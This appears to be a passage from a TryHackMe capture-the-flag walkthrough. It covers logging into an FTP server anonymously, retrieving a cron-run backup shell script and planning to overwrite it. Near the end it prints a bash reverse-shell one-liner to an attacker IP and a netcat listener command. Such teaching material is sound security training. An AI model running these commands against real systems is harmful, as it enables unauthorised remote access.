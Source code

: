 >>Enter FTP's "Anonymous" mode...This setting allows a default username to be used with any password by a client. This user is treated like any other user on the FTP server - including enforcing permissions and privileges to commands and data.

----

#  Using FTP Over Terminal
----

>>We're going to be using the "FTP" package that comes installed on most Linux environments but especially the THM AttackBox.To connect, we simply use ftp and provide the IP address of the Instance. In my case, I would use ftp 10.10.185.239, but you would need to use ftp MACHINE_IP for your vulnerable Instance.
>>When prompted for our "Name", we enter "anonymous". If successful, we have confirmed that the FTP Server has "anonymous" mode enabled - successful login looking like so:
>>You can use the help command to list some of the commands you can run whilst connected to the FTP Server. Here's a quick rundown of the fundamentals:

Command 	Description
ls 			List files and directories in the working directory on the FTP server
cd 			Change our working directory on the FTP server
get 		Download a file from the FTP server to our device
put 		Upload a file from our device to the FTP server

>>Let's look at the directories available to us using ls. There is only one folder with data that our user has permission to access:
>>We'll navigate to this using cd to change our working directory and then  ls to list the contents.
>>The file within this folder contains a file with a ".sh" extension. 
>>This extension is a shell script, that when executed, will run commands that we program. 
>>Let's use get to get the file from the server onto our device, so we understand why this file has been left here!

----

# Finding our Exploit
----

>>With the file downloaded, let's open it on our device using a terminal text editor such as nano.

>>We don't need to understand what happens here outside of the comments. 
>>The script executes every minute (according to Elf McEager), creates a backup of a folder and stores it in Elf McEager's home directory. 
>>What if we were to replace the commands executed in this script with our own, malicious commands? Uploading a file requires separate permission that shouldn't be granted to the "anonymous" user.
>>However, permissions are very easy to oversight - such as in the case here.

>>Let's use pentesters cheatsheet to get a good command that will be executed by the server to
generate a shell to our AttackBox, replacing the IP_ADDRESS with your TryHackMe IP, this address is displayed on the navigation bar on the Access page.

```bash
bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0>&1 
```
>>Let's set up a netcat listener to catch the connection on our AttackBox: nc -lvnp 4444

